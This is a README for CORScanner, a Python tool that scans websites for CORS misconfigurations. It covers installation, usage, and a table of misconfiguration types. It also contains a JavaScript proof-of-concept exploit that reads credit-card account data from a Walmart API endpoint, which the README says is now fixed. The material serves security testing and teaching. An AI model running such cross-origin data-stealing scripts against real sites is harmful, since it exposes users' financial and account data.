

## About CORScanner 

CORScanner is a python tool designed to discover CORS misconfigurations vulnerabilities of websites. It helps website administrators and penetration testers to check whether the domains/urls they are targeting have insecure CORS policies. 

### Features
* **Fast**. It uses [gevent](https://github.com/gevent/gevent) instead of Python threads for concurrency, which is much faster for network scanning.
* **Comprehensive**. It covers all [the common types of CORS misconfigurations](#misconfiguration-types) we know.
* **Flexible**. It supports various self-define features (e.g. file output), which is helpful for large-scale scanning.

Two useful references for understanding CORS systematically: 
* USENIX security 18 paper: [We Still Don’t Have Secure Cross-Domain Requests: an Empirical Study of CORS](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/)
* 中文详解：[绕过浏览器SOP，跨站窃取信息：CORS配置安全漏洞报告及最佳部署实践](https://www.jianjunchen.com/post/cors%E5%AE%89%E5%85%A8%E9%83%A8%E7%BD%B2%E6%9C%80%E4%BD%B3%E5%AE%9E%E8%B7%B5/)

## Screenshots



## Installation

- Download this tool
```
git clone https://github.com/chenjj/CORScanner.git
```

- Install dependencies
```
sudo pip install -r requirements.txt
```
CORScanner depends on the `requests`, `gevent`, `tldextract`, `colorama` and `argparse` python modules.

## Python Version:

* Both Python 2 (**2.7.x**) and Python 3 (**3.7.x**) are supported.

## Usage

Short Form    | Long Form     | Description
------------- | ------------- |-------------
-u            | --url         | URL/domain to check it's CORS policy
-d            | --headers     | Add headers to the request
-i            | --input       | URL/domain list file to check their CORS policy
-t            | --threads     | Number of threads to use for CORS scan
-o            | --output      | Save the results to json file
-v            | --verbose     | Enable the verbose mode and display results in realtime
-h            | --help        | show the help message and exit

### Examples

* To check CORS misconfigurations of specific domain:

``python cors_scan.py -u example.com``

* To check CORS misconfigurations of specific URL:

``python cors_scan.py -u http://example.com/restapi``

* To check CORS misconfiguration with specific headers:

``python cors_scan.py -u example.com -d "Cookie: test"``

* To check CORS misconfigurations of multiple domains/URLs:

``python cors_scan.py -i top_100_domains.txt -t 100``

* To list all the basic options and switches use -h switch:

```python cors_scan.py -h```

## Misconfiguration types
This tool covers the following misconfiguration types:

Misconfiguration type    | Description
------------------------ | --------------------------
Reflect_any_origin       | Blindly reflect the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.
Prefix_match             | `wwww.example.com` trusts `example.com.evil.com`, which is an attacker's domain.
Suffix_match             | `wwww.example.com` trusts `evilexample.com`, which could be registered by an attacker.
Not_escape_dot           | `wwww.example.com` trusts `wwwaexample.com`, which could be registered by an attacker.
Substring match          | `wwww.example.com` trusts `example.co`, which could be registered by an attacker.
Trust_null               | `wwww.example.com` trusts `null`, which can be forged by iframe sandbox scripts
HTTPS_trust_HTTP         | Risky trust dependency, a MITM attacker may steal HTTPS site secrets
Trust_any_subdomain      | Risky trust dependency, a subdomain XSS may steal its secrets
Custom_third_parties     | Custom unsafe third parties origins like `github.io`, see more in [origins.json](./origins.json) file. Thanks [@phackt](https://github.com/phackt)!
Special_characters_bypass| Exploiting browsers’ handling of special characters. Most can only work in Safari except `_`, which can also work in Chrome and Firefox. See more in [Advanced CORS Exploitation Techniques](https://www.corben.io/advanced-cors-techniques/). Thanks [@Malayke](https://github.com/Malayke).
  
Welcome to contribute more.  
  
## Exploitation examples
Here is an example about how to exploit "Reflect_any_origin" misconfiguration on Walmart.com(fixed). Localhost is the malicious website in the video.

Walmart.com video on Youtube:

[](http://www.youtube.com/watch?v=3abaevsSHXY)

Here is the exploitation code:
```javascript
<script>
    // Send a cross origin request to the walmart.com server, when a victim visits the page.
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //reading response is allowed because of the CORS misconfiguration.
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //display the data on the page. A real attacker can send the data to his server.
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>
```

If you have understood how the demo works, you can read Section 5 and Section 6 of the [CORS paper](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/) and know how to exploit other misconfigurations.

## License

CORScanner is licensed under the MIT license. take a look at the [LICENSE](./LICENSE) for more information.


## Credits
This work is inspired by the following excellent researches:

* James Kettle, “Exploiting CORS misconfigurations for Bitcoins and bounties”, AppSecUSA 2016*
* Evan Johnson, “Misconfigured CORS and why web appsec is not getting easier”,  AppSecUSA 2016*
* Von Jens Müller, "CORS misconfigurations on a large scale", [CORStest](https://github.com/RUB-NDS/CORStest)*

## Version
**Current version is 1.0**
